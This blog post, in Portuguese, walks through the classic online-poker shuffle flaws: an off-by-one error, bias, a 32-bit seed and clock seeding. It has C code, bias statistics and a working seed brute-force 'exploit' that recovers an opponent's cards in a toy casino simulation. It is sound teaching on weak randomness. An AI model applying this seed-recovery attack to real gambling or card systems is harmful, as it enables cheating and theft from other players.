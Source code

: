 ```yaml
---
categories:
- coding
date: '2021-02-26'
title: Lessons From Online Poker Exploit
---
```


Em 2014 eu palestrei na trilha de segurança do TDC em São Paulo um tema que me deixou muito animado: um exploit baseado em falhas de programação em um código de 10 linhas. O código era tão simples que achei válido traduzir para C e demonstrar como atacar uma simulação de cassino online.

Esta palestra (e o código) se perdeu no tempo, mas eu anotei o nome da pesquisadora que escreveu o post pelo qual me baseei: Laura Diane Hamilton (que também estuda Machine Learning em seu blog). [Seu post] comenta sobre uma história de 1990 quando hackers se aproveitaram de falhas básicas no algoritmo de embaralhamento de cartas de pôquer.

O código original estava escrito em Pascal, mas é facilmente traduzido para C:

    unsigned char Card[52];
    unsigned char CurrentCard = 0;
    unsigned char JustShuffled = 0;
    
    void DeckShuffle()
    {
      unsigned char ctr;
      unsigned char tmp;
      unsigned char random_number;
    
      /* Fill the deck with unique cards */
      for( ctr = 0; ctr < 52; ctr++ )
        Card[ctr] = ctr + 1;

      /* Generate a new seed based on the system clock */
      srand(time(NULL));

      /* Randomly rearrange each card */
      for( ctr = 0; ctr < 52; ctr++ )
      {
        random_number = rand() % 51;
        tmp = card[random_number];
        card[random_number] = card[ctr];
        card[ctr] = tmp;
      }

      CurrentCard = 0;
      JustShuffled = 1;
    }

Fiz um código para compilar e rodar o embaralhador de cartas que [embaralha e imprime] a saída em cada nova execução para podermos observar mais facilmente os bugs encontrados por Hamilton. A falha número 1, o "An Off-by-One Error", pode ser feita em C também, se você usar a função rand() da maneira como está no código:

    random_number = rand() % 51;

É um erro simples de ser cometido por programadores incautos, que querem expressar na verdade a obtenção de um número aleatório entre 1 e 52 e ao mesmo tempo obter o índice correto 0-based de um array. No entanto, o resto de uma divisão por N sempre irá cair entre 0 e N-1, já obtendo o índice correto em C.

    random_number = rand() % 52;

Para observar o que Hamilton quer dizer com "a 52a. carta nunca irá cair na 52a. posição" é possível forçar um loop nesse estilo:

    /* call only once in main */
    srand(time(NULL));

    do
    {
      DeckShuffle();
    }
    while( Card[51] != 52 );

Este loop nunca irá terminar. Faça o teste. Depois compare com a rapidez com que o loop encontra a carta 52 em qualquer outra posição.

A segunda falha, "The Shuffle Isn't Uniform", diz respeito à distribuição não-uniforme da igual probabilidade de certas cartas estarem em qualquer posição da pilha. Da maneira com que é implementado o algoritmo essa distribuição é enviesada. Temos como provar isso atribuindo pesos a cada embaralhada e depois de um certo tempo exibir os totais:

    int CardStats[52];
    int j, j2;

    for( j = 0; j < 1000; ++j )
    {
      for( j2 = 0; j2 < 1000; ++j2 )
      {
        DeckShuffle();
        for( i = 0; i < 52; ++i )
          if( Card[i] == i+1 )
            CardStats[i]++;
      }
    }

    printf("cards stats: \n");
    for( i = 0; i < 52; ++i )
    {
      printf("%d ", CardStats[i]);
    }

A versão original do algoritmo rodando um milhão de vezes demonstra o viés de forma descarada:

    cards stats:
    19270 18869 18685 18442 
    18348 18024 18119 17647 
    17612 17388 17661 17360 
    17183 17018 17176 16621 
    16705 16522 16337 16599 
    16499 16238 16315 15970 
    16294 16388 16294 16418 
    16463 16313 16462 16491 
    16450 16384 16674 16736 
    16577 16879 16933 17159 
    17417 17344 17672 18025 
    17883 18053 18107 18691 
    19042 19152 19559 0

Com a correção desse viés (e do bug da 52a. carta) aplicada:

    random_number = rand() % (ctr - 52) + ctr;

O resultado se torna muito mais uniforme:

    cards stats:
    19116 19035 19371 19328 
    19293 19327 19308 19277 
    19412 19231 19314 19192 
    19200 19229 19461 19398 
    19299 19314 19452 19291 
    19329 19003 19354 19282 
    19319 19237 19255 19149 
    19321 19291 19123 19266 
    19237 19443 19355 19318 
    19321 19127 19147 19277 
    19250 19307 19353 19169 
    19047 19225 19310 19297 
    19298 19423 19370 19213

No entanto, o pior bug talvez seja a união entre a terceira e a quarta falhas apontadas pela pesquisadora: "Using a 32-bit Seed" + "Using the System Clock as a Seed". Com esses dois unidos o hackerismo fica à solta, pois além das possibilidades de embaralhamento ficarem restritas em 2^32 o uso do clock limita em 86,400,000 milissegundos por dia da função random do Pascal. Em C poderia ser feito algo semelhante.

Um range muito específico de geração da semente do gerador de números aleatórios pode criar uma tabela maleável de possibilidades. Com isso em mãos, de acordo com Hamilton, uma vez que o atacante saiba pelo menos cinco cartas é possível fazer uma busca rápida em um range pequeno possibilidades. Em um jogo de pôquer isso é possível apenas com duas cartas em sua mão e as três cartas na mesa (flop).

Com base nesse comportamento vamos criar um [exploit] que recebe as três cartas do flop fornecidas pelo atacante que está no jogo e que inicia uma busca a partir do horário atual para trás. Conforme o programa encontra matches dessas três cartas juntas ele exibe o deck completo de cartas, a partir do qual o atacante pode verificar se suas cartas constam na distribuição.

    time(&curr_time);

    printf("how is the flop? ");
    scanf("%d %d %d", &flop1, &flop2, &flop3);

    while( 1 )
    {
      DeckShuffle(curr_time);

      if( Card[0] == flop1 && Card[1] == flop2 && Card[2] == flop3 )
      {
        printf("%d: ", (int) curr_time);
        for( i = 0; i < 52; ++i )
        {
          printf("%d ", Card[i]);
        }
        printf("\n");
      }

      curr_time--;
    }

Por sua vez o [cassino] rodará o algoritmo bugado que já vimos. Para simplificar ele já pergunta para o jogador #2 se ele sabe quais são as cartas do jogador #1. Se ele não souber o programa diz ser ainda seguro, mas se acertar isso é revelado.

    DeckShuffle();
  
    printf("(for you) your cards, player#%d: %d %d\n", 
      player, Card[3 + (player-1) * 2], Card[3 + (player-1) * 2 + 1]);
    printf("(for all) flop: %d %d %d\n", Card[0], Card[1], Card[2]);

    player1_card1 = Card[3];
    player1_card2 = Card[4];
  
    printf("do you know which cards have player #1? ");
    scanf("%d %d", &player1_guess1, &player1_guess2);

    if( player1_guess1 == player1_card1 
      && player1_guess2 == player1_card2 )
    {
      printf("acerto, miseravi!\n");
    }
    else
    {
      printf("no no no, I am still secure!\n");
    }

Para rodar os programas basta iniciar o cassino e copiar as cartas do flop. Em seguida rodar o exploit e colar o flop. A partir daí ele começa a calcular e quando houver um deck em que aparecem as suas cartas copiar e colar as cartas do adversário, ou seja, o jogador #1, que são as cartas logo depois do flop.

    >cassino.exe
    (for you) your cards, player#2: 1 21
    (for all) flop: 9 22 15
    do you know which cards have player #1?
    
    >cassino_exploit.exe
    how is the flop? 9 22 15
    1614385852: 9 22 15 6 12 1 21 14 ...
    1614222117: 9 22 15 4 36 16 25 5 ...
    1613983918: 9 22 15 32 31 14 16 ...
    ^C
    
    (for you) your cards, player#2: 1 21
    (for all) flop: 9 22 15
    do you know which cards have player #1? 6 12
    acerto, miseravi!

[Seu post]: http://www.lauradhamilton.com/random-lessons-online-poker-exploit
[embaralha e imprime]: shuffle_cards.c
[exploit]: cassino_exploit.c
[cassino]: cassino.c

